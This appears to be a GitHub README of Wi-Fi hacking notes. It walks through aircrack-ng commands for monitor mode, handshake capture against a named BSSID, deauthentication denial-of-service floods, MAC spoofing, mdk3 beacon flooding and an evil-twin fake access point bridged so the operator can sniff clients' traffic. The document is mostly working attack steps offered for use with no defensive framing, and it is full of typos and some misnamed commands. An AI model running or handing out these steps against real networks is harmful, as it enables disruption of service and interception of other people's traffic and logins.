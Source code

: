 # wifi-hking


# AirCrack-Ng Tool
- Aircrak-ng is not a signle tool, but  rather a suit of tools for manipu;ating and craking wifi networks
    
    - Airmon-ng
          
          - Placing different cards in monitor mode.
    - aircrack-nh
          
          - Wireless key cracking program
     - aurodump-ng
     
            - Packet sniffer

     - aireplay-ng
     
            - Packet injector
     - airbase-ng 
    
           - config dake access points
    
     - airdecap-ng 


            - decrypt WEP/WPA/WPA2 encryption

## Packet Injection

 <P> Packet injection allow to intercept, disrupt and manipulate netwoek communication.
  packet injection is commonly used in man-in-the-middle attacks
  
  An example of this is sending a deautentication packets from an unknown party outside the network to a connected client as
  id it as  send by the wireless router. This will result in the client disconnecting from the router.
  </P>
  
  ### Recommended use wireless cards
    - ALFA AWUS06H
    - TP-LINK WN722N
    - ALFA AWUS036NHA
  
  ### To test network adopter for packet injection
  ```bash
  aireplay-ng -9 wlx
  ```
  
  ### Put wireless card in monitor mode
  ```bash
  sudo airmon-ng start wlx
  ```
  - To kill the process 
  ```
  airmon-ng check kill
  ```
  - To check the monitor mode
  ```
  iwconfig
  ```
- To list the wireless network arround you
```bash
airodump-ng wlx
```
- TO crak a specific network
```
└──╼ #airodump-ng -c 7 --bssid 28:DE:E5:BA:BC:C8 wlx502b73a0015b
```
- Force client to dissconnect
```
└──╼ #aireplay-ng -0 20 -a 28:DE:E5:BA:BC:C8 wlx502b73a0015b
```
--------------------------------------------------------------------

# MAC Spoofing 

- Before changing mac address you should always put you network adopter down

```bash
ifconfig wlan0 down
```
```bash
└──╼ #macchanger -r wlx5
```
 - Spoof a specific mac address
 ```bash
macchanger -m 50:2b:73:a0:01:5b wlx
```
- Bring the network adopter up 
```bash
└──╼ #ifconfig wlx up
```
-----------------------------------------------------------------------------

# Dos Attack

Start monitor mode
```bash
└──╼ #airmon-ng start wlx5
```
Scan All the access points
```bash
└──╼ #airodump-ng wlx5
```
show the clients connect to the network
```bash
└──╼ #airodump-ng -c 7 --bssid 28:DE:E5:BA:BC:C8  wlx
```
To dos attack || Send packs
```bash
└──╼ #aireplay-ng -0 1000 -a 28:DE:E5:BA:BC:C8 wlx502b73a0015b

```
Fake flood wireless networks
```bash
mdk3 walan0man b -c 5
```
-------------------------------------------------------------------------------

# Evil Twin Attack

Evil twin is local fake assess point

## Monitor mode
```bash
sudo airmon-ng start wlan0mon

```
## Scan all the wireless access points

```bash
sudo airodump-ng wlan0mon

```
## Find the assessing point you want to clone

### Create a fake assessing point 
```bash
airbase-ng -a  50:1D:93:98:0F:BC -e Ansari -c 10  wlan0mon
```

### forcing client to disconnect & connect to the fake asses point
```
airplay-ng -0 0 -a 60:F6:77:82:7B:BB wlan0mon
```
### giving hotspot from the fake assess point 
```bash
apt-get insall bridge-utils
```
### after installaton
```
brctl addbr fake
# creating bridge between etho and fake
brctl addif fake eth0

# Adding interface which is created by airbase-ng
brctl addif fake at0
# Adding ip addresses to interdaces
ifconfig at0 0.0.0.0 up
ifconfig fake up

```
## you can listen to fake traffic using wireshark

___________________________________________________________________________
# Advance Evil twin attack!!

<h3> Put wireless card in monitor mode </h3>

```bash
airmon-ng start wlam0
```
 
  ### Testing the packet injection 
  
  ```bash
  aireplay-ng --test wlan0mon
  ```
  ### sniffing wireless network
   #### Scanning all the networks avalible
  
  ```bash
  airodump-ng wlan0mon
  ```
  ### sniff packs 
  
  ```bash
  airodump-ng --bassid 04:B0:E7:EC:34:24 -c 6 -w capture wlan0mon
  # this will start capturing packs in folder called capture
  ```
  
  ### inject packets in target network 
  ```bash
  aireplay-ng --deauth 10 -a 04:B0:E7:EC:34:24 wlan0mon
  ```
  ### To see the packets captured
  ```bash
  wireshark capture.cap
  ```
  
  # Setp 1 Create access point
  
  
  - Install dnsmasq hostapd
  
  ```
        apt install dnsmasq hostapd
  ```     
  
  
  
  
  




  
    

